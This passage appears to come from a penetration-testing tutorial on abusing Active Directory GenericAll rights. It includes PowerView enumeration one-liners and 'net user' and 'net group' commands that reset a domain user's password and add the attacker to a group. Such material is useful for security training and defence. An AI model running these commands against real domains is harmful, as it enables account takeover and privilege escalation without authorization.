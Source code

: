 ## Abusing GenericAll

We'll focus on the GenericAll access right, which gives full control of the targeted object.

1. To begin, we first enumerate all domain users that our current account has GenericAll right to.

Note : The command bellow will enumerate all ACEs for all domain users, next we will resolve the SID, add it to the output and finnaly filter on usernames that match our current user as set in the $env:UserDomain and $env:Username environment variables :

```PowerShell
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

The GenericAll access right gives us full control over the devservice1 user, which among other things, allows us to change the password of the account without knowledge of the old password :

```PowerShell
net user devservice1 h4x /domain
```

We can also abuse the ForceChangePassword and AllExtendedRights access rights to change the password of a user account in a similar way without supplying the old password.

The command bellow is similar to the previous enumeration, but we will enumerate all domain groups that our current user has explicit access rights.

```
PS C:\tools> Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Since GenericAll gives us full access to the group, we can compromise the group by simply adding ourselves to it 

```
net group devgroup v0lk3n /add /domain
```

As with user accounts, we can also use the AllExtendedRights and GenericWrite access rights in a similar way.
